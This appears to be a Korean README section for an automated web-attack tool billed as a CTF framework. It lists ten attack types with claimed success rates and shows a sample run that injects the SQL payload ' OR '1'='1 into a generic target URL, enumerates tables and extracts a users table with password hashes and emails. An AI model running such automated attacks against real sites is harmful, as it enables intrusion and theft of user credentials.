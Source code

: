 #### 지원 공격 유형

| 공격 유형 | 설명 | 성공률 | 자동화 수준 |
|---------|------|-------|----------|
| **SQL Injection** | 데이터베이스 쿼리 조작 | **70%** | 페이로드 자동 생성 + Playwright 분석 |
| **XSS** | Cross-Site Scripting | 60% | 반사형/저장형 자동 테스트 |
| **SSRF** | Server-Side Request Forgery | 55% | 내부 네트워크 탐색 |
| **Command Injection** | OS 명령어 실행 | 65% | 자동 페이로드 체인 |
| **Path Traversal** | 디렉토리 순회 공격 | 50% | 다양한 인코딩 변형 |
| **XXE** | XML External Entity | 45% | DTD 기반 공격 |
| **LFI/RFI** | Local/Remote File Inclusion | 55% | 파일 시스템 접근 |
| **CSRF** | Cross-Site Request Forgery | 40% | 토큰 바이패스 |
| **Open Redirect** | URL 리다이렉션 악용 | 60% | 자동 탐지 |
| **File Upload** | 악성 파일 업로드 | 50% | 파일 타입 우회 |

**성공률 개선 내역**:
- SQL Injection: 30% → **70%** (Playwright 페이지 분석 도입)
- XSS: 45% → **60%** (브라우저 기반 DOM 분석)
- Command Injection: 50% → **65%** (실제 응답 검증)

#### 실행 예시

```bash
python interactive_cli.py

# 메뉴 → c → CTF Framework

# === Option 1: 단일 챌린지 공격 ===
Challenge URL: http://target.com/vulnerable.php?id=1
공격 유형: sql_injection

🎯 Starting SQL Injection attack with Playwright...

[Phase 1: Page Analysis with Playwright]
  ✓ Browser launched (Chromium headless)
  ✓ Forms found: 1 (username, password)
  ✓ Scripts analyzed: 3 external, 2 inline
  ✓ Comments: 5 developer hints found
  ✓ Cookies: PHPSESSID=abc123
  ✓ Headers: Server: Apache/2.4.41

[Phase 2: Vulnerability Detection]
  Testing payload: ' OR '1'='1
  ✓ Response length changed: 245 → 1834 bytes
  ✓ Potential SQLi confirmed!

[Phase 3: Database Enumeration]
  Extracting database name...
  ✓ Database: webapp_db

  Enumerating tables...
  ✓ Found 5 tables: users, posts, comments, sessions, config

[Phase 4: Data Extraction]
  Extracting users table...
  ✓ Retrieved 23 rows
  ✓ Columns: id, username, password_hash, email

```